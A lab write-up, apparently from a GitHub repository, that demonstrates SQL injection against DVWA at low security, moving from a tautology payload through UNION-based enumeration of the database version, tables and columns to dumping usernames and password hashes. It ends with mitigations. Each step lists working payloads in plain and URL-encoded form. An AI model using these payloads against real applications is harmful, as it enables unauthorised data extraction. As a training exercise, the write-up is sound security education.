 
---

## **SQL-Injection**


# SQL Injection – DVWA Low Security

## Objective
Demonstrate SQL injection vulnerabilities and exploitation steps to extract sensitive data.

---

## Methodology
The testing was performed on the SQL Injection (Low) page of DVWA. Input was submitted via the User ID form field, and raw HTTP requests were also verified. All payloads were crafted to illustrate the consequences of unsanitized SQL queries.
1. Identify vulnerable User ID field.
2. Test payloads to confirm vulnerability.
3. Enumerate database structure.
4. Extract user credentials.

---

## Exploitation Steps

<details>
<summary>Step 1: Confirm Vulnerability</summary>

- **Payload:** `1' OR '1'='1`
- **URL Endcoded:** id=1%27%20OR%20%271%27=%271

**Observation:**
- Instead of returning a single user (ID 1), the application has returned all users in the database, including user ID's, first names, and surnames.
- The input has successfully modified the backend SQL query to always evaluate as true: SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';

**Impact:** 
- Bypasses query constraints.
- User input is not sanitised or parameterised, allowing attackers to manipulate queries.
- In a real-world scenario, this type of injection could allow an attacker to access all user records, and potentially extract sensitive information such as usernames, passwords, and other database contents.

Working SQL injection:

<img width="940" height="644" alt="image" src="https://github.com/user-attachments/assets/7809b124-80ef-41dc-b76b-a2189bf9251e" />

<img width="940" height="878" alt="image" src="https://github.com/user-attachments/assets/73871ae2-665b-41de-85d3-5c0ee1797f6f" />


</details>

<details>
<summary>Step 2: Retrieve Database Version</summary>

- **Payload:** `1' UNION SELECT null, version() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20version()%20--%20
  
**Observation:**
-  Database version: `10.1.26-MariaDB-0+deb9u1`
- The First name field was empty because we used null in the payload; the surname field shows the version
- The UNION SELECT payload works because DVWA Low does not sanitize input.
- It allows combining your query with the original, extracting backend information.

**Impact:** 
- Reveals backend system
- Confirms that SQL injection can be used not just to dump user data but also to enumerate database details.
- In a real application, this could help an attacker map the database structure, aiding further attacks.


<img width="940" height="625" alt="image" src="https://github.com/user-attachments/assets/785cf36c-ebbd-4ed9-99e8-1707b78b76c4" />



</details>

<details>
<summary>Step 3: Retrieve Database Name</summary>

- **Payload:** `1' UNION SELECT null, database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20database()%20--%20
  
**Observation:**
- Database: `dvwa`  

**Impact:**
- Targets specific tables
- Confirms that the active database can be enumerated via SQL injection

<img width="940" height="612" alt="image" src="https://github.com/user-attachments/assets/824fc852-c5c9-4ddc-acfc-93136269c9b7" />

</details>

<details>
<summary>Step 4: List Tables in the database</summary>

- **Payload:** `1' UNION SELECT null, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20
  
**Observation:** 
- Tables: `users, guestbook`
- Queries the information_schema.tables system table to get all tables in the current database. 

**Impact:** 
- Maps database structure critical for further data extraction

<img width="756" height="491" alt="image" src="https://github.com/user-attachments/assets/edf43ccb-0b72-4283-b8dd-891c05b9a1d8" />


</details>

<details>
<summary>Step 5: List Columns in Users Table</summary>

- **Payload:** `1' UNION SELECT null, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name='users'%20--%20

**Observation:** 
- Columns: `user, password`
- Queries information_schema.columns to identify the schema of the users table. 

**Impact:** 
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="616" alt="image" src="https://github.com/user-attachments/assets/c4cf25a6-f08c-43e6-a1ec-6bcd28453f4f" />

</details>

<details>
<summary>Step 6: Dump Users Table</summary>

- **Payload:** `1' UNION SELECT user, password FROM users --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20user,%20password%20FROM%20users%20--%20

**Observation:** 
- Returns all usernames and password hashes
- Can now extract sensitive information from the database using SQL injection 

**Impact:** 
- Full compromise of sensitive data
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="655" alt="image" src="https://github.com/user-attachments/assets/a6ea7a6e-0d5a-4bb1-9f8c-e64deda42562" />

</details>

---

## Summary
•	DVWA Low Security is vulnerable to SQL injection.
•	All six steps demonstrate the exploitation path from query manipulation to full data extraction.
•	Real-world implications:
    o	Attackers can retrieve all users and sensitive information.
    o	Database enumeration allows mapping and further exploitation.

---

## Recommendations/Mitigations
1.	Use parameterized queries / prepared statements to prevent user input from altering SQL syntax.
2.	Sanitize and validate all inputs to block malicious payloads.
3.	Limit database privileges — avoid giving web applications full access to system tables.
4.	Implement monitoring / WAF to detect suspicious queries.

---

## Try It Yourself
To replicate this test safely:
1. Install and configure DVWA locally.
2. Navigate to **SQL Injection (Low)**.
3. Use the payloads provided in each step.  

Important: Only test in a controlled lab (like DVWA).  
Never attempt these techniques on real applications.

---

## SQL Injection Flow Diagram

```mermaid
graph LR
A[User Input] --> B[DVWA SQL Query]
B --> C{Sanitized?}
C -- No --> D[SQL Injection Success]
C -- Yes --> E[Query Safe]




